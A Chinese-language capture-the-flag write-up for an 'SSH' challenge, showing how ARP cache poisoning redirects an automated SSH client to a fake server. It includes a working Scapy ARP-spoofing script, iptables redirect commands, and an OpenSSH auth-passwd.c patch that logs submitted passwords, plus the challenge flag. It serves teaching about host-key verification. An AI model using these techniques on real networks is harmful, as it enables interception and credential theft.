



# SSH

## 题目简述

题目通过 OpenVPN 把选手接入授权的二层网段 `10.0.0.0/29`。网内有三个关键节点：

- 选手主机：`10.0.0.3`；
- 周期性发起 SSH 连接的客户端 Jackal：`10.0.0.2`；
- 真正保存 flag 的 SSH 服务器：`10.0.0.4`。

题面特别说明 Jackal 厌烦 SSH 主机密钥变化提示，会自动清理 `known_hosts` 并对提示输入 `yes`。这意味着客户端放弃了 SSH 用于抵御中间人攻击的服务器身份校验。目标是在同一二层广播域内通过 ARP 欺骗把 Jackal 引向伪造 SSH 服务，取得其登录凭据，再连接真实服务器。



## 解题过程

### 确认客户端与服务器

连接题目 VPN 后，只对明确授权的 `/29` 网段做主机和端口探测。真实 SSH 服务位于 `10.0.0.4:22`，同时能观察到 `10.0.0.2` 周期性向它建立连接。由于题目明确禁止爆破，且客户端主动发送密码，攻击面应放在二层解析和服务端身份验证上。

被动抓包无法直接读出 SSH 密码，因为认证内容位于加密信道中；但若客户端连接到攻击者控制的 SSH 服务，该服务完成密钥交换后就能看到提交的明文用户名和密码。

### 污染 Jackal 的 ARP 缓存

持续向 `10.0.0.2` 发送伪造 ARP Reply，声称真实服务器 IP `10.0.0.4` 对应选手主机的 MAC：



Scapy 示例：

```python
from scapy.all import ARP, Ether, get_if_hwaddr, sendp

iface = "tap0"
victim_ip = "10.0.0.2"
victim_mac = "11:22:33:44:55:66"
server_ip = "10.0.0.4"
attacker_mac = get_if_hwaddr(iface)

packet = (
    Ether(src=attacker_mac, dst=victim_mac)
    / ARP(
        op=2,
        hwsrc=attacker_mac,
        hwdst=victim_mac,
        psrc=server_ip,
        pdst=victim_ip,
    )
)

sendp(packet, iface=iface, loop=True, inter=0.2, verbose=False)
```

此后 Jackal 发出的 IP 包仍以 `10.0.0.4` 为目的地址，但以攻击者 MAC 为以太网目的地址：



### 接收被重定向的 SSH 连接

Linux 默认不会把目的 IP 不属于本机的数据交给本地 `sshd`。在题目隔离网内启用转发，并将进入的 TCP/22 重定向到本机 22 端口：

```bash
sudo sysctl net.ipv4.ip_forward=1
sudo iptables -P FORWARD ACCEPT
sudo iptables -t nat -A PREROUTING \
  -p tcp --dport 22 \
  -j REDIRECT --to-ports 22
```

伪造 SSH 服务需要使用密码认证并记录服务端收到的凭据。官方做法是在 OpenSSH 的 `auth-passwd.c` 中、实际校验前追加日志：

```c
int fd = open(
    "/tmp/leak.txt",
    O_CREAT | O_RDWR | O_APPEND,
    S_IRUSR | S_IWUSR
);

if (fd != -1) {
    write(fd, authctxt->user, strlen(authctxt->user));
    write(fd, ":", 1);
    write(fd, password, strlen(password));
    write(fd, "\n", 1);
    close(fd);
}
```

重新编译并启动该 `sshd`。Jackal 下次自动连接时，由于不验证服务器主机密钥，会继续提交真实服务器凭据；用户名和密码随后出现在 `/tmp/leak.txt`。

### 登录真实服务器

停止 ARP 欺骗或恢复正常映射，使用捕获到的凭据连接：

```bash
ssh jackal@10.0.0.4
```

在 Jackal 的家目录中得到：

```text
SEKAI{https://linux.livejournal.com/1884229.html_4540941f3ea0a6cd}
```

## 方法总结

- 核心技巧：利用同一二层网段中的 ARP 缓存投毒，把自动化 SSH 客户端重定向到攻击者控制的服务端，再从服务端认证逻辑取得密码。
- 识别信号：题面反复强调忽略主机密钥变化、清空 `known_hosts`、周期性自动 SSH 且无需爆破，直接指向服务器身份验证失效。
- 复用要点：SSH 加密并不等于能抵御主动中间人；安全性还依赖主机密钥校验。实施二层重定向时还要同时处理目的 IP 非本机导致的内核丢包问题，并在完成后恢复 ARP 与防火墙状态。
